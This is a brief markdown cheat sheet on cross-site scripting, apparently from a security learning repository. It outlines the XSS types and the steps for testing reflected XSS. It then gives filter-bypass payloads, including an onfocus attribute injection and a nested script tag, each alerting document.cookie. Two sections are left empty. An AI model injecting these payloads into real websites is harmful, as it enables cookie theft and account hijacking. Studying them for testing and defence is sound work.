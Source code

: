 # XSS Attack

### XSS Basic

There are 3 types of XSS:
* Reflected XSS
* Stored XSS
* DOM-based XSS

### Reflected XSS

1. Detect input parameters and determine how they are input (includes HTTP parameters, POST data, hidden form field values, and predefined radio or selection values)

2. Use input data with each input parameters to see if any responses are triggered.

3. Examine the resulting web page HTML and searching for the test input.

### Bypass XSS filters

Input such as `<script>` and `<` or `>` may be filtered by the web application or browser. 

#### Without using a tag

##### Form
```
<input type="text" name="state" value="INPUT_FROM_USER">
```

##### Form after injecting (`" onfocus="alert(document.cookie)`)

```
<input type="text" name="state" value="" onfocus="alert(document.cookie)">
```
#### Different syntax

Different syntax may bypass the filter but treated by the browser as valid syntax.

```
"><script >alert(document.cookie)</script >

```

#### Bypass non-recursive filtering

For some filter, it only perform once on the string and not recursively. It can be bypass with multiple tag


```
<scr<script>ipt>alert(document.cookie)</script>
```

### Stored XSS


### DOM-based XSS




### How to exploit an XSS

Source:

https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

[https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/](https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/)


